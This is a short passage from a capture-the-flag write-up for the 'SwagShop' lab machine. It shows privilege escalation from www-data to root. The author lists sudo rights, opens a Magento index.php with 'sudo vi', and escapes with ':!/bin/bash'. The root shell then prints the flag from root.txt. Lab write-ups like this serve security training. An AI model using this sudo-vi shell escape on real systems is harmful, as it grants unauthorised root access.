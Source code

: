 - First thing to do is to run the commands that we can run as root.

```bash
www-data@swagshop:/home/haris$ sudo -l
Matching Defaults entries for www-data on swagshop:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on swagshop:
    (root) NOPASSWD: /usr/bin/vi /var/www/html/*

```
- This means the www-data may run `/usr/bin/vin` on any file located under `/var/www/html/`.


```bash
www-data@swagshop:/home/haris$ ls /var/www/html
LICENSE.html       app          get.php           js              pkginfo
LICENSE.txt        cron.php     includes          lib             shell
LICENSE_AFL.txt    cron.sh      index.php         mage            skin
RELEASE_NOTES.txt  errors       index.php.sample  media           var
api.php            favicon.ico  install.php       php.ini.sample

www-data@swagshop:/home/haris$ sudo /usr/bin/vi /var/www/html/index.php

<?php
/**
 * Magento
 *
 * NOTICE OF LICENSE
 *
 * This source file is subject to the Open Software License (OSL 3.0)
 * that is bundled with this package in the file LICENSE.txt.
 * It is also available through the world-wide-web at this URL:
 * http://opensource.org/licenses/osl-3.0.php
 * If you did not receive a copy of the license and are unable to
 * obtain it through the world-wide-web, please send an email
 * to license@magentocommerce.com so we can send you a copy immediately.
 *
 * DISCLAIMER
 *
 * Do not edit or add to this file if you wish to upgrade Magento to newer
 * versions in the future. If you wish to customize Magento for your
 * needs please refer to http://www.magentocommerce.com for more information.
 *
 * @category   Mage
 * @package    Mage
@@@
:!/bin/bash
root@swagshop:/home/haris# whoami
root
root@swagshop:/home/haris# cd /root
root@swagshop:~# ls 
root.txt
root@swagshop:~# cat root.txt 
646f2284d1a9d92bda34aa5040b8e395

```
